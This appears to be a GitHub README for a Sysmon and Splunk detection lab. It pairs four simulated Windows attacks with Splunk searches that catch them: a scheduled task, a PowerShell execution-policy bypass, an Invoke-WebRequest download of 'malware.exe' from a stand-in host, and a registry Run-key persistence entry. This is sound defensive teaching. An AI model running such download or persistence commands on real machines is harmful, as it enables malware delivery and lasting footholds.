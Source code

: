 # Sysmon-Splunk-detection

This repo contains hands-on detection labs using Splunk, Sysmon, and Windows logging.

## Tools Used
- Sysmon (with config)
- Splunk
- Windows VM (via VMware)

## Attack 1 – Suspicious Scheduled Task Creation
**Command used:**

schtasks /create /sc minute /mo 5 /tn "Updater" /tr "calc.exe" 

**Detection Method in Splunk**
index=* CommandLine="*calc.exe*"


![Log Screenshot](Incident-01.png)

## Attack 2 – Suspicious PowerShell Activity**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Write-Output 'This is a test of suspicious PowerShell activity'"

**Detection Method in Splunk**
index=* EventCode=1 Image="*powershell.exe" NOT Image="*splunk-powershell.exe"


![Log Screenshot](Incident-02.png)


## Attack 3 – Spotting an Invoke Web-Request**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://example.com/malware.exe -OutFile C:\users\Public\malware.exe"

**Detection Method in Splunk**
 index=* sourcetype=WinEventLog* powershell "Invoke-WebRequest"


![Log Screenshot](Incident-03.png)


## Attack 4 – Registry Key Persistence**
**Command used:**

New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Malware" -Value "calc.exe"

**Detection Method in Splunk**
index=* sourcetype=WinEventLog* EventCode=13 Malware


![Log Screenshot](Incident-04.png)
